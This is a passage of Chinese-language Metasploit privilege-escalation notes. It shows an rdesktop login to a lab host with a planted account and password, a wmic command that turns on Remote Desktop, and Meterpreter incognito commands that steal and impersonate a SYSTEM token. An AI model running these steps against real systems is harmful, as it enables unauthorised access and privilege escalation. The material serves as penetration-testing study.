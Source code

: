 注意:使用msvenom创建MSI文件时使用了always_install_elevated模块，那么在安装过程中会失败。这是因为操作系统会阻止未注册的安装。

下面就可以利用该用户登录访问一些远程主机服务

比如登录目标机器的远程桌面服务

```
rdesktop  -u msi  -p Password12345  172.16.243.132

```



连接成功

![image-20210811194006313](msf提权.assets/image-20210811194006313.png)



如果没有开启远程服务，可以利用以下命令开启

```
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
```





### 窃取令牌，假冒令牌

#### 假冒令牌

```
use    incognito
//这个模块是用来窃取令牌，模仿令牌的.令牌相当于cookie.

windows中有两种令牌,一中是Delegation Token，是交互式登录（比如登录进去系统或者通过远程桌面连接到系统）创建的.另一种是Impersonmate Token（模仿令牌），它是为非交互式会话创建的

list_tokens  -u
//列出当前令牌

impersonate_token 'NT AUTHORITY\SYSTEM' 		
#假冒SYSTEM token

impersonate_token NT\ AUTHORITY\\SYSTEM		
#不加单引号 需使用\\
```
